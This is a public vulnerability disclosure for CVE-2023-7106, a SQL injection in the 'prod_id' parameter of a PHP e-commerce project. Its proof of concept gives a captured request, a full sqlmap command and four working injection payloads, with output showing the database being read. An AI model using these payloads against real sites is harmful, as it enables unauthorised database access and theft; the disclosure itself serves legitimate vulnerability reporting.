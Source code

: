 # CVE-2023-7106_E-Commerce Website - SQL Injection 2
+ **Exploit Title:** E-Commerce Website - SQL Injection 2
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7106

## References: 
+ **CVE-2023-7106:** https://vuldb.com/?id.249001
+ https://www.cve.org/CVERecord?id=CVE-2023-7106

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'prod_id' in "http://localhost/Electricks/Electricks-shop/pages/product_details.php?prod_id=11".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the ELECTRONIC PRODUCTS: "http://localhost/Electricks/Electricks-shop/pages/products.php"
+ Option and View.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /Electricks/Electricks-shop/pages/product_details.php?prod_id=11 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=ph6ngt1khn1l20eg8hivgv8uc6
Referer: http://localhost/Electricks/Electricks-shop/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'prod_id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p prod_id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: prod_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: prod_id=11' AND 7251=7251-- mvqJ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod_id=11' AND (SELECT 4336 FROM(SELECT COUNT(*),CONCAT(0x716a787671,(SELECT (ELT(4336=4336,1))),0x71627a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FBBS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod_id=11' AND (SELECT 3355 FROM (SELECT(SLEEP(5)))DonO)-- wPLs

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: prod_id=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a787671,0x4477555048486f6e487148784e57436e6b546e534d654447714f6256496243505158646c65797252,0x71627a7a71),NULL,NULL,NULL,NULL,NULL-- -
---
[20:05:42] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:05:42] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/ef46e98d-0521-488a-aef2-0ae24dadba49)
